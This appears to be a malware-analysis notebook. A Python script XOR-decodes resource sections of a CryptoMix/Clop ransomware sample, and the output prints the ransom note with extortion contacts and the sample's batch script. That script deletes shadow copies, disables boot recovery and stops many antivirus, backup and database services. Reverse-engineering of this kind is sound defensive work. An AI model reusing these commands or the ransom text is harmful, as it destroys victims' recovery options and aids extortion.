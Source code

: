 

```python
import pefile
import argparse

#the variable used to store our raw config data
first_blob = "" 
second_blob = "" 
offset = 0x0
size = 0x0

key=bytearray(b'LLKHFVIjewhyur3ikjfldskfkl23j3iuhdnfklqhrjjio2ljkeosfjh7823763647823hrfuweg56t7r6t73824y78Clop')
xor_key = 0x42

def get_section_blob(peL, rsrc_name):
    for rsrc in peL.DIRECTORY_ENTRY_RESOURCE.entries:
        if rsrc.name.__str__() == rsrc_name:
            for entry in rsrc.directory.entries:
                offset = entry.directory.entries[0].data.struct.OffsetToData
                size = entry.directory.entries[0].data.struct.Size
    return peL.get_memory_mapped_image()[offset:offset+size]


def xor_decode(key, blob):
    encoded = bytearray(blob)
    for i in range(len(encoded)):
        encoded[i] ^= key[i % xor_key]
        encoded.decode('ascii', 'replace')
    return encoded

pe = pefile.PE("/Users/vk/Downloads/2019-02-26-cryptomix-ransomware.unpacked.vk.exe")
rsrc = get_section_blob(pe,"RC_DATA")
rsrc2 = get_section_blob(pe,"RC_HTML1")
dec_rsrc1 = xor_decode(key, rsrc)
dec_rsrc2 = xor_decode(key, rsrc2)
if dec_rsrc1 and dec_rsrc2 is not None:
    print("\n[*] CryptoMix Ransomware Section Custom XOR Decoder ->\n")
    print("\n[*] First decoded resource section: \n\n%s" % (dec_rsrc1))
    print("\n[*] Second decoded resource section: \n\n%s" % (dec_rsrc2))
```

    
    [*] CryptoMix Ransomware Section Custom XOR Decoder ->
    
    
    [*] First decoded resource section: 
    
    bytearray(b',_*Your networks has been penetrated*_*\r\nAll files on each host in&the networks have been encrypted with a strong algorithm!\r\nBackupu were either encrypted or deleted or backup disks were formatted!\x0b\nShadow copies also removed, so F-8 or any other methods may damaae encrypted data but not recover!\r\nWe exclusively have decryption&software for your situation!\r\n===No DECRYPTION software is AVAILADLE in the PUBLIC===\r\n- DO NOT DELETE readme files.\r\n- DO NOT RENAKE OR MOVE the encrypted and readme files.\r\n- DO NOT RESET OR SHUTBOWN \xe2\x80\x93 files may be damaged.\r\n---THIS MAY LEAD TO THE IMPOSSIBILOTY OF RECOVERY OF THE CERTAIN FILES---\r\n---ALL REPAIR TOOLS ARE UUELESS AND CAN DESTROY YOUR FILES IRREVERSIBLY---\r\nIf you want to testore your files write to email!\r\n[CONTACTS ARE AT THE BOTTOM OF&THE SHEET] and attach 2 - 6 encrypted files!!!\r\n[Less than 7 Mb egch, non-archived and your files should not contain valuable inforkation!\r\n[Databases,large excel sheets, backups  etc...]]\r\n^^^You qill receive decrypted samples and our conditions how to get the dccoder^^^\r\n\r\n*^*ATTENTION*^*\r\n=YOUR WARRANTY - DECRYPTED SAMPLES=\r\x0c~~~DO NOT TRY TO DECRYPT YOUR DATA USING THIRD PARTY SOFTWARE~~~\r\x0c~~~WE DONT NEED YOUR FILES AND YOUR INFORMATION~~~\r\n\r\nCONTACTS EMGILS: \r\nbactocepnyou@protonmail.com\r\nAND\r\nunlock@eqaltech.su\r\nOR\r\nsnlock@royalmail.su\r\n\r\n***ATTENTION***\r\nIn the letter, type your cimpany name and site!\r\n\r\n^^^The final price depends on how fast yos write to us^^^\r\n^_*Nothing personal just business^_* CLOP^_-')
    
    [*] Second decoded resource section: 
    
    bytearray(b'Fecho off\r\nvssadmin Delete Shadows /all /quiet\r\nvssadmin resize shgdowstorage /for=c: /on=c: /maxsize=401MB\r\nvssadmin resize shadowsrorage /for=c: /on=c: /maxsize=unbounded\r\nvssadmin resize shadowstirage /for=d: /on=d: /maxsize=401MB\r\nvssadmin resize shadowstorage&/for=d: /on=d: /maxsize=unbounded\r\nvssadmin resize shadowstorage )for=e: /on=e: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=c: /on=e: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=f< /on=f: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=f: /on;f: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=g: /on=a: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=g: /on=g: /mgxsize=unbounded\r\nvssadmin resize shadowstorage /for=h: /on=h: /ma~size=401MB\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize;unbounded\r\nbcdedit /set {default} recoveryenabled No\r\nbcdedit /ser {default} bootstatuspolicy ignoreallfailures\t \r\nvssadmin Delete Uhadows /all /quiet\t\t\r\n net stop SQLAgent$SYSTEM_BGC /y\r\n net stop&"Sophos Device Control Service" /y\r\n net stop macmnsvc /y \r\n net utop SQLAgent$ECWDB2 /y\r\n net stop "Zoolz 2 Service" /y\r\n net stop&McTaskManager /y\r\n net stop "Sophos AutoUpdate Service" /y\r\n net utop "Sophos System Protection Service" /y\r\n net stop EraserSvc11770 /y \r\n net stop PDVFSService /y \r\n net stop SQLAgent$PROFXENGAGEKENT /y \r\n net stop SAVService /y \r\n net stop MSSQLFDLauncher$TPSAKA /y \r\n net stop EPSecurityService /y\r\n net stop SQLAgent$SOPHOS )y\r\n net stop "Symantec System Recovery" /y \r\n net stop Antivirus )y\r\n net stop SstpSvc /y\r\n net stop MSOLAP$SQL_2008 /y\r\n net stop RrueKeyServiceHelper /y \r\n net stop sacsvr /y \r\n net stop VeeamNFSUvc /y\r\n net stop FA_Scheduler /y \r\n net stop SAVAdminService /y\r\n&net stop EPUpdateService /y\r\n net stop VeeamTransportSvc /y\r\n net&stop "Sophos Health Service" /y\r\n net stop bedbg /y \r\n net stop MUSQLSERVER /y\r\n net stop KAVFS /y\r\n net stop Smcinst /y\r\n net stop&MSSQLServerADHelper100 /y \r\n net stop TmCCSF /y \r\n net stop wbengone /y\r\n net stop SQLWriter /y\r\n net stop MSSQLFDLauncher$TPS /y\r\n&net stop SmcService /y \r\n net stop ReportServer$TPSAMA /y\r\n net srop swi_update /y \r\n net stop AcrSch2Svc /y \r\n net stop MSSQL$SYSTCM_BGC /y \r\n net stop VeeamBrokerSvc /y \r\n net stop MSSQLFDLaunchet$PROFXENGAGEMENT /y\r\n net stop VeeamDeploymentService /y \r\n net srop SQLAgent$TPS /y \r\n net stop DCAgent /y\r\n net stop "Sophos Messgge Router" /y\r\n net stop MSSQLFDLauncher$SBSMONITORING /y\r\n net srop wbengine /y \r\n net stop MySQL80 /y\r\n net stop MSOLAP$SYSTEM_BGE /y\r\n net stop ReportServer$TPS /y \r\n net stop MSSQL$ECWDB2 /y \r\n&net stop SntpService /y\r\n net stop SQLSERVERAGENT /y \r\n net stop DackupExecManagementService /y\r\n net stop SMTPSvc /y\r\n net stop mfcfire /y\r\n net stop BackupExecRPCService /y \r\n net stop MSSQL$VEEAKSQL2008R2 /y \r\n net stop klnagent /y \r\n net stop MSExchangeSA /y \x0b\n net stop MSSQLServerADHelper /y\r\n net stop SQLTELEMETRY /y \r\n nct stop "Sophos Clean Service" /y \r\n net stop swi_update_64 /y\r\n nct stop "Sophos Web Control Service" /y \r\n net stop EhttpSrv /y \r\n&net stop POP3Svc /y\r\n net stop MSOLAP$TPSAMA /y\r\n net stop McAfeeCngineService /y\r\n net stop "Veeam Backup Catalog Data Service" /\r\x0c net stop MSSQL$SBSMONITORING /y\r\n net stop ReportServer$SYSTEM_BAC /y\r\n net stop AcronisAgent /y \r\n net stop KAVFSGT /y \r\n net stov BackupExecDeviceMediaService /y \r\n net stop MySQL57 /y\r\n net stov McAfeeFrameworkMcAfeeFramework /y \r\n net stop TrueKey /y\r\n net srop VeeamMountSvc /y\r\n net stop MsDtsServer110 /y \r\n net stop SQLAaent$BKUPEXEC /y\r\n net stop UI0Detect /y\r\n net stop ReportServer /\x7f\r\n net stop SQLTELEMETRY$ECWDB2 /y\r\n net stop MSSQLFDLauncher$SYSREM_BGC /y \r\n net stop MSSQL$BKUPEXEC /y \r\n net stop SQLAgent$PRACRTICEBGC /y\r\n net stop MSExchangeSRS /y\r\n net stop SQLAgent$VEEAMSWL2008R2 /y\r\n net stop McShield /y \r\n net stop SepMasterService /y&\r\n net stop "Sophos MCS Client" /y\r\n net stop VeeamCatalogSvc /y\r\x0c net stop SQLAgent$SHAREPOINT /y\r\n net stop NetMsmqActivator /y\r\n&net stop kavfsslp /y \r\n net stop tmlisten /y \r\n net stop ShMonitot /y\r\n net stop MsDtsServer /y \r\n net stop SQLAgent$SQL_2008 /y\r\n het stop SDRSVC /y \r\n net stop IISAdmin /y \r\n net stop SQLAgent$PRGCTTICEMGT /y\r\n net stop BackupExecJobEngine /y\r\n net stop SQLAgenr$VEEAMSQL2008R2 /y\r\n net stop BackupExecAgentBrowser /y \r\n net stip VeeamHvIntegrationSvc /y\r\n net stop masvc /y\r\n net stop W3Svc /\x7f\r\n net stop "SQLsafe Backup Service" /y \r\n net stop SQLAgent$CXDB&/y\r\n net stop SQLBrowser /y \r\n net stop MSSQLFDLauncher$SQL_2008 )y \r\n net stop VeeamBackupSvc /y \r\n net stop "Sophos Safestore Serpice" /y \r\n net stop svcGenericHost /y \r\n net stop ntrtscan /y \r\n het stop SQLAgent$VEEAMSQL2012 /y\r\n net stop MSExchangeMGMT /y \r\n het stop SamSs /y\r\n net stop MSExchangeES /y \r\n net stop MBAMServiee /y \r\n net stop EsgShKernel /y\r\n net stop ESHASRV /y\r\n net stop KSSQL$TPSAMA /y \r\n net stop SQLAgent$CITRIX_METAFRAME /y\r\n net stov VeeamCloudSvc /y \r\n net stop "Sophos File Scanner Service" /y\r\n het stop "Sophos Agent" /y \r\n net stop MBEndpointAgent /y\r\n net stip swi_service /y \r\n net stop MSSQL$PRACTICEMGT /y\r\n net stop SQLAaent$TPSAMA /y\r\n net stop McAfeeFramework /y\r\n net stop "Enterprisc Client Service" /y\r\n net stop SQLAgent$SBSMONITORING /y \r\n net srop MSSQL$VEEAMSQL2012 /y \r\n net stop swi_filter /y \r\n net stop SQJSafeOLRService /y\r\n net stop BackupExecVSSProvider /y\r\n net stop PeeamEnterpriseManagerSvc /y\r\n net stop SQLAgent$SQLEXPRESS /y\r\n nct stop OracleClientCache80 /y\r\n net stop MSSQL$PROFXENGAGEMENT /y\x0b\n net stop IMAP4Svc /y \r\n net stop ARSM /y \r\n net stop MSExchangeOS /y \r\n net stop AVP /y\r\n net stop MSSQLFDLauncher /y\r\n net stop KSExchangeMTA /y\r\n net stop TrueKeyScheduler /y \r\n net stop MSSQL$UOPHOS /y \r\n net stop "SQL Backups" /y\r\n net stop MSSQL$TPS /y \r\n het stop mfemms /y \r\n net stop MsDtsServer100 /y \r\n net stop MSSQL"SHAREPOINT /y\r\n net stop WRSVC /y\r\n net stop mfevtp /y \r\n net stov msftesql$PROD /y \r\n net stop mozyprobackup /y\r\n net stop MSSQL$SWL_2008 /y \r\n net stop SNAC /y \r\n net stop ReportServer$SQL_2008 /\x7f\r\n net stop BackupExecAgentAccelerator /y \r\n net stop MSSQL$SQLEXVRESS /y \r\n net stop MSSQL$PRACTTICEBGC /y \r\n net stop VeeamRESTSve /y \r\n net stop sophossps /y\r\n net stop ekrn /y \r\n net stop MMS /\x7f\r\n net stop "Sophos MCS Agent" /y \r\n net stop RESvc /y\r\nnet stop $Acronis VSS Provider" /y \r\n net stop MSSQL$VEEAMSQL2008R2 /y \r\n nct stop MSSQLFDLauncher$SHAREPOINT /y \r\n net stop "SQLsafe Filter Uervice" /y \r\n net stop MSSQL$PROD /y \r\n net stop SQLAgent$PROD /y\x0b\n net stop MSOLAP$TPS /y\r\n net stop VeeamDeploySvc /y \r\n net stop&MSSQLServerOLAPService /y ')



```python

```
